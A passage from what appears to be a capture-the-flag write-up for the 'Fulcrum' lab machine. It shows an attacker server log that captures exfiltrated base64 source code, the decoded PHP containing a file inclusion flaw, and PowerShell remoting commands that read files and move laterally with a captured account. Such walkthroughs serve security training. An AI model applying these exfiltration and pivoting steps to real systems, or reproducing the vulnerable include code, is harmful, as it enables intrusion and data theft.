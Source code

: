 _results_
```
10.10.10.62 - - [20/Jun/2018 22:32:34] "GET /result?PD9waHAKaWYoJF9TRVJWRVJbJ1JFTU9URV9BRERSJ10gIT0gIjEyNy4wLjAuMSIpCnsKCWVjaG8gIjxoMT5VbmRlciBNYWludGFuY2U8L2gxPjxwPlBsZWFzZSA8YSBocmVmPVwiaHR0cDovLyIgLiAkX1NFUlZFUlsnU0VSVkVSX0FERFInXSAuICI6NC9pbmRleC5waHA/cGFnZT1ob21lXCI+dHJ5IGFnYWluPC9hPiBsYXRlci48L3A+IjsKfWVsc2V7CgkkaW5jID0gJF9SRVFVRVNUWyJwYWdlIl07CglpbmNsdWRlKCRpbmMuIi5waHAiKTsKfQo/PgoK HTTP/1.0" 404 -
```

Un-Base64'ing the response gives you the contents of _index.php_

```php
<?php
if($_SERVER['REMOTE_ADDR'] != "127.0.0.1")
{
	echo "<h1>Under Maintance</h1><p>Please <a href=\"http://" . $_SERVER['SERVER_ADDR'] . ":4/index.php?page=home\">try again</a> later.</p>";
}else{
	$inc = $_REQUEST["page"];
	include($inc.".php");
}
?>
```

_Contents of home.php_
```php
<?php
?>
<!DOCTYPE html>
<html>
<body>
<h1>Fulcrum File Upload</h1>

<form action="upload.php" method="post" enctype="multipart/form-data">
        Select image to upload:
        <p><input type="file" name="fileToUpload" id="fileToUpload"></p>
        <p><input type="submit" value="Upload Image" name="submit"></p>
</form>

</body>
</html>
```

_Contents of upload.php_
```php
<?php
	if(isset($_POST))
	{
		sleep(2);
		echo "<p style=\"color:red;\">Sorry the file upload failed</p>";
	}
?>
```
We can quickly see see that the code  in `index.php` is vulnerable  to a textbook `php file inclusion` vulnerability. The only thing is, to exploit this  vulnerability we need to have the request come from the machines `localhost`. If you attempt to access the page not from localhost it will give you the `Under maintenance ` page. But if the request comes from localhost we hit the 2nd code path of the application, and we have control over the `page` parameter which is getting passed directly into the `include` statement which we can use to get code execution. [Additional Reading](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke